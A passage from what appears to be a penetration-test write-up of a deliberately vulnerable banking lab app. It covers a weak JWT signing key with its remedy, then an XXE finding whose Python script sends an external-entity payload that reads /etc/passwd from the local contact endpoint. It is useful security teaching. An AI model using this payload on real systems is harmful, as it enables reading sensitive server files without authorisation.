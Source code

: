 ![](/Screenshots/unsafebank//pent/jwtcrack.png)

This is a **High severity issue (CVSS ~8.0)** because a weak or guessable JWT signing key allows attackers to forge valid tokens and impersonate users.

**Remedy:**  
Use a strong, random secret key for JWT signing, ideally at least 256 bits. Avoid exposing sensitive data inside JWT payloads. Also, implement short token expiration times and consider rotating keys regularly to minimize risk.

---
### 6. XXE:

While exploring the application, the **Contact Us** form attracted my attention. Initially, I tested it by sending JSON payloads, which the server accepted and processed correctly, confirming that the endpoint handles structured data.

Next, I wondered if the endpoint might also accept **XML** input. If it did, this would open the door to an **XXE attack**, where malicious XML can be crafted to read arbitrary files from the server.

![](/Screenshots/unsafebank//pent/xml.png)

As suspected, it got passed successfully. Time to inject a DTD for XXE. For this I wrote a simple python script.

```python
import requests

url = "http://localhost/api/contactUs"

payload = '''<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>'''

headers = {
    "Content-Type": "application/xml",
    "Accept": "application/xml"
}

response = requests.post(url, data=payload.encode(), headers=headers)

print("Server Response:")
print(response.text)
```

![](/Screenshots/unsafebank//pent/xxe.png)

The server’s response included the contents of the `/etc/passwd` file, confirming the XXE vulnerability.
